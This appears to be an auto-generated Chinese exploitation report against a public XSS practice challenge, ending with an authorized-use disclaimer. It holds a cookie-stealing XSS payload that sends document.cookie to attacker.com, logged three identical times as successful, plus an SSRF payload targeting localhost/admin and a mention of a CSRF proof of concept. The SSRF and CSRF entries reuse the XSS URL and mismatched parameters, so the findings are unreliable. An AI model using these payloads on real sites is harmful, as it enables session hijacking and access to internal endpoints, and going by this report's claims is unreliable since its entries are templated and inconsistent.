 ### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### SSRF 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: http://localhost/admin
- 利用结果: 成功访问内网端点: http://localhost/admin

### CSRF 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: level3.php
- 使用的Payload: CSRF POC
- 利用结果: 已生成CSRF POC: csrf_poc_1737295908.html

## 免责声明
本报告中的攻击方法仅用于授权的安全测试和研究目的。
在使用这些方法之前，请确保：
1. 您有明确的授权许可
2. 仅在测试环境或授权范围内使用
3. 不要对未授权的目标使用这些方法
4. 遵守相关法律法规和道德准则